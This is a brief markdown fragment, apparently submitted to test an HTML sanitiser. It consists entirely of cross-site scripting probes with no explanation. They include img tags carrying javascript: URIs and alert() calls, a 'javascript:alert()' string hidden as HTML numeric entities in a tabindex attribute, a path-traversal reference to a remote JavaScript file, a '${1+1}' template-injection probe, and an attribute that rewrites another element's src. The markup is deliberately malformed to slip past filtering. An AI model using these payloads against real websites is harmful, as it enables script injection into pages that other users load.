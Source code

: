 ![

<img src="../../../../../../../img/onload/../../r89shi/r89shi.github.io/blob/master/teste.js">

<img src="//javascript://document.alert(2);/,javascript:alert(1)</title>//#">XXX</a>

<img id="meu" src="" tabindex=&#60;&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;&#97;&#108;&#101;&#114;&#116;&#40;&#41;></div>
<div id="${1+1}">bbbb</div>
<span value="javascript:document.getElementById('user-content-meu').src='123';">aaa</span>

](()
